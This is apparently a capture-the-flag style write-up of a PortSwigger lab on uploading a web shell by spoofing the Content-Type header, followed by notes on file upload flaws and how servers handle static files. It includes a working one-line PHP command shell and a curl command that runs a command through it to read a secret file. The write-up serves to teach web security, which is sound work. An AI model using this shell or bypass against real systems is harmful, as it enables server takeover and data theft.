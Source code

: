 # 1f2 - Web shell upload via Content-Type restriction bypass \[Portswigger Lab]

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So upon logging in my account, I can see the avatar upload field.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption><p>upload field for avatar</p></figcaption></figure>

Testing this functionality by uploading an empty `test.txt` file gives me an error

`Sorry, file type text/plain is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

The next thing I tried was to upload the same file but modify the HTTP request using burpsuite and change `Content-Type: Text/Plain` to `Content-Type: image/jpeg`. This bypassed a defense mechanism and as a result it let me upload a text file

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption><p>demonstration of tricking web application into uploading different type of file</p></figcaption></figure>

Now it's time to upload a web shell `mal.php` with the following contents:

`<?php echo system($_GET['command']); ?>`

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption><p>uploaded malware of type php</p></figcaption></figure>

Now, since I know that this `mal.php` is uploaded in `/files/avatars/mal.php`, I can call it using CURL.

And we got the secret

```
curl -X GET "https://0a2200b703596e51800635e70004004c.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

7nJBS****************************7nJBS****************************
```

remember that calls form curl like this repeats the response twice, so I had to remove the double of this output.

The secret contents: `7nJB****************************`

***

**Impact of FUVs generally depend on two key factors**:

* Which aspect of the file the website fails to validate properly, whether its the size, type, contents...
* what restrictions are imposed once file is uploaded

In the worst case scenario, the file is not validated at all and the server configuration allows certain types to run as code - potentially giving an attacker web shell and full access to a webserver.

In case filename isn't validated properly, an attacker might just replace original file with a malicious one.

Failing to validate file size might also enable an attacker to perform a DoS.

_**How Web servers handle static file requests?**_

Generally, static files on a website can be mapped 1:1 with a filesystem hierarchy.

Nowadays modern applications are dynamic and hence complex. Path of a request may not necessarily represent a filesystem entirely. Nowadays, web servers still deal with static requests for some static files like stylesheets, images etc.

The process for handling such files is historically largely the same. - The server parses the path in the request to identify the file extension. Then uses this information to determine the filetype by comparing it to preconfigured mapping between extensions and MIME types.

* if the file is non-executable like HTML file, it may just send the file in the HTTP response
* if the file is executable like PHP or PYTHON and the server is configured to execute these files, it will assign variables based on the headers and parameters in the HTTP request before executing it. The result may be passed on to HTTP response after.
* if the file is executable, but the server is not configured to run them, it will generally respond with an error or in some cases, just send back the plain text representation of the code to the client. such misconfigurations may lead to code and sensitive data leakage. The `Content-Type` response header may provide clues as to what kind of file the server thinks it has served.

As a precaution, servers generally only run scripts whose filetypes have been explicitly defined to execute. Otherwise they may return an error message or plaintext of source code. In such cases, it might only be possible to leak the source but won't be able to deploy a webshell.

This kind of configuration will have a strict policy for directories where user can upload files than other locations on the filesystem that are assumed to be out of reach from users. If you can find a directory where user-uploaded files are not supposed to be, the code might execute.

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.
